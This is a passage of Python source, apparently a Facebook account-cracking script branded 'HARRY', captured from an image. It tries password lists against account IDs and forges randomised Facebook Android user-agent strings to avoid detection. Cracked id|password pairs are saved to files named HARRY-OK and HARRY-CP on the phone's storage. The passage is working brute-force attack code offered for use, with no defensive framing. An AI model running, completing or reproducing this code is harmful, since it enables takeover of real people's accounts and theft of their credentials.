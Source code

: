                                         print('\r\r\033[1;32m [HARRY-OK] '+ids+' | '+pas+'\033[1;97m')

                                        open('/sdcard/HARRY-OK.txt','a').write(ids+'|'+pas+'\n')

                                        oks.append(ids)

                                        break

                                elif 'www.facebook.com' in q['error']['message']:

                                        if 'y' in pcp:

                                                print('\r\r\u001b[33m [HARRY-CP] '+ids+' | '+pas+'\033[1;97m')

                                                open('/sdcard/HARRY-CP.txt', 'a').write(ids+'|'+pas+'\n')

                                                cps.append(ids)

                                                break

                                        else:

                                                open('/sdcard/HARRY-CP.txt','a').write(ids+'|'+pas+'\n')

                                                break

                                else:

                                        continue

                        loop+=1

                except requests.exceptions.ConnectionError:

                        time.sleep(10)

                except Exception as e:

                        pass

def rndm(ids,passlist):

                try:

                        global ok,loop

                        sys.stdout.write('\r\r\033[1;37m [HARRY-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()

                        for pas in passlist:

                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))

                                application_version_code=str(random.randint(000000000,999999999))

                                fbs=random.choice(fbks)

                                gtt=random.choice(xxxxx)

                                gttt=random.choice(xxxxx)

                                android_version=str(random.randrange(6,13))

                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/en_US;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
